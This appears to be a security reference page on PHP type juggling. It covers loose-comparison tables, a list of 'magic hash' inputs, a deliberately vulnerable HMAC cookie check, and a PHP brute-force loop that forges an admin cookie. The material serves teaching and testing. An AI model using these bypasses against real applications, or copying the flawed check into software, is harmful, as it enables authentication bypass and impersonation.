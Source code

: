 # Type Juggling

> PHP is a loosely typed language, which means it tries to predict the programmer's intent and automatically converts variables to different types whenever it seems necessary. For example, a string containing only numbers can be treated as an integer or a float. However, this automatic conversion (or type juggling) can lead to unexpected results, especially when comparing variables using the '==' operator, which only checks for value equality (loose comparison), not type and value equality (strict comparison).


## Summary

* [Loose Comparison](#loose-comparison)
	* [True Statements](#true-statements)
	* [NULL Statements](#null-statements)
	* [Loose Comparison](#loose-comparison)
* [Magic Hashes](#magic-hashes)
* [Methodology](#methodology)
* [Labs](#labs)
* [References](#references)


## Loose Comparison

> PHP type juggling vulnerabilities arise when loose comparison (== or !=) is employed instead of strict comparison (=== or !==) in an area where the attacker can control one of the variables being compared. This vulnerability can result in the application returning an unintended answer to the true or false statement, and can lead to severe authorization and/or authentication bugs.

- **Loose** comparison: using `== or !=` : both variables have "the same value".
- **Strict** comparison: using `=== or !==` : both variables have "the same type and the same value".

### True Statements

| Statement                         | Output |
| --------------------------------- |:---------------:|
| `'0010e2'   == '1e3'`             | true |
| `'0xABCdef' == ' 0xABCdef'`       | true (PHP 5.0) / false (PHP 7.0) |
| `'0xABCdef' == '     0xABCdef'`   | true (PHP 5.0) / false (PHP 7.0) |
| `'0x01'     == 1`       		    | true (PHP 5.0) / false (PHP 7.0) |
| `'0x1234Ab' == '1193131'`         | true (PHP 5.0) / false (PHP 7.0) |
| `'123'  == 123`                   | true |
| `'123a' == 123`                   | true |
| `'abc'  == 0`                     | true |
| `'' == 0 == false == NULL`        | true |
| `'' == 0`                         | true |
| `0  == false `                    | true |
| `false == NULL`                   | true |
| `NULL == ''`                      | true |

> PHP8 won't try to cast string into numbers anymore, thanks to the Saner string to number comparisons RFC, meaning that collision with hashes starting with 0e and the likes are finally a thing of the past! The Consistent type errors for internal functions RFC will prevent things like `0 == strcmp($_GET['username'], $password)` bypasses, since strcmp won't return null and spit a warning any longer, but will throw a proper exception instead. 

![LooseTypeComparison](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/Images/table_representing_behavior_of_PHP_with_loose_type_comparisons.png?raw=true)

Loose Type comparisons occurs in many languages:

* [MariaDB](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Mariadb)
* [MySQL](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Mysql)
* [NodeJS](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/NodeJS)
* [PHP](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/PHP)
* [Perl](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Perl)
* [Postgres](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Postgres)
* [Python](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Python)
* [SQLite](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/SQLite/2.6.0)


### NULL Statements

| Function | Statement                  | Output |
| -------- | -------------------------- |:---------------:|
| sha1     | `var_dump(sha1([]));`      | NULL |
| md5      | `var_dump(md5([]));`       | NULL |


## Magic Hashes

>  Magic hashes arise due to a quirk in PHP's type juggling, when comparing string hashes to integers. If a string hash starts with "0e" followed by only numbers, PHP interprets this as scientific notation and the hash is treated as a float in comparison operations. 

| Hash | "Magic" Number / String    | Magic Hash                                    | Found By / Description      |
| ---- | -------------------------- |:---------------------------------------------:| -------------:|
| MD4  | gH0nAdHk                   | 0e096229559581069251163783434175              | [@spaze](https://github.com/spaze/hashes/blob/master/md4.md) |
| MD4  | IiF+hTai                   | 00e90130237707355082822449868597              | [@spaze](https://github.com/spaze/hashes/blob/master/md4.md) |
| MD5  | 240610708                  | 0e462097431906509019562988736854              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | QNKCDZO                    | 0e830400451993494058024219903391              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 0e1137126905               | 0e291659922323405260514745084877              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 0e215962017                | 0e291242476940776845150308577824              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 129581926211651571912466741651878684928                | 06da5430449f8f6f23dfc1276f722738              | Raw: ?T0D??o#??'or'8.N=? |
| SHA1 | 10932435112                | 0e07766915004133176347055865026311692244      | Independently found by Michael A. Cleverly & Michele Spagnuolo & Rogdham |
| SHA-224 | 10885164793773          | 0e281250946775200129471613219196999537878926740638594636 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1138075224010833921) |
| SHA-256 | 34250003024812          | 0e46289032038065916139621039085883773413820991920706299695051332 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1148586399207178241) |
| SHA-256 | TyNOQHUS                | 0e66298694359207596086558843543959518835691168370379069085300385 | [@Chick3nman512](https://twitter.com/Chick3nman512/status/1150137800324526083)

```php
<?php
var_dump(md5('240610708') == md5('QNKCDZO')); # bool(true)
var_dump(md5('aabg7XSs')  == md5('aabC9RqS'));
var_dump(sha1('aaroZmOk') == sha1('aaK1STfY'));
var_dump(sha1('aaO8zKZF') == sha1('aa3OFF9m'));
?>
```

## Methodology

The vulnerability in the following code lies in the use of a loose comparison (!=) to validate the $cookie['hmac'] against the calculated `$hash`.

```php
function validate_cookie($cookie,$key){
	$hash = hash_hmac('md5', $cookie['username'] . '|' . $cookie['expiration'], $key);
	if($cookie['hmac'] != $hash){ // loose comparison
		return false;
		
	}
	else{
		echo "Well done";
	}
}
```

In this case, if an attacker can control the $cookie['hmac'] value and set it to a string like "0", and somehow manipulate the hash_hmac function to return a hash that starts with "0e" followed only by numbers (which is interpreted as zero), the condition $cookie['hmac'] != $hash would evaluate to false, effectively bypassing the HMAC check.

We have control over 3 elements in the cookie:
- `$username` - username you are targeting, probably "admin"
- `$expiration` - a UNIX timestamp, must be in the future
- `$hmac` - the provided hash, "0"

The exploitation phase is the following:
1. Prepare a malicious cookie: The attacker prepares a cookie with $username set to the user they wish to impersonate (for example, "admin"), `$expiration` set to a future UNIX timestamp, and $hmac set to "0".
2. Brute force the `$expiration` value: The attacker then brute forces different `$expiration` values until the hash_hmac function generates a hash that starts with "0e" and is followed only by numbers. This is a computationally intensive process and might not be feasible depending on the system setup. However, if successful, this step would generate a "zero-like" hash.
	```php
	// docker run -it --rm -v /tmp/test:/usr/src/myapp -w /usr/src/myapp php:8.3.0alpha1-cli-buster php exp.php
	for($i=1424869663; $i < 1835970773; $i++ ){
		$out = hash_hmac('md5', 'admin|'.$i, '');
		if(str_starts_with($out, '0e' )){
			if($out == 0){
				echo "$i - ".$out;
				break;
			}
		}
	}
	?>
	```
3. Update the cookie data with the value from the bruteforce: `1539805986 - 0e772967136366835494939987377058`
	```php
	$cookie = [
		'username' => 'admin',
		'expiration' => 1539805986,
		'hmac' => '0'
	];
	```
4. In this case we assumed the key was a null string : `$key = '';`


## Labs

* [Root Me - PHP - Type Juggling](https://www.root-me.org/en/Challenges/Web-Server/PHP-type-juggling)
* [Root Me - PHP - Loose Comparison](https://www.root-me.org/en/Challenges/Web-Server/PHP-Loose-Comparison)


## References

- [(Super) Magic Hashes - myst404 (@myst404_) - October 7, 2019](https://offsec.almond.consulting/super-magic-hash.html)
- [Magic Hashes - Robert Hansen - May 11, 2015](http://web.archive.org/web/20160722013412/https://www.whitehatsec.com/blog/magic-hashes/)
- [Magic hashes – PHP hash "collisions" - Michal Špaček (@spaze) - May 6, 2015](https://github.com/spaze/hashes)
- [PHP Magic Tricks: Type Juggling - Chris Smith (@chrismsnz) - August 18, 2020](http://web.archive.org/web/20200818131633/https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)
- [Writing Exploits For Exotic Bug Classes: PHP Type Juggling - Tyler Borland (TurboBorland) - August 17, 2013](http://turbochaos.blogspot.com/2013/08/exploiting-exotic-bugs-php-type-juggling.html)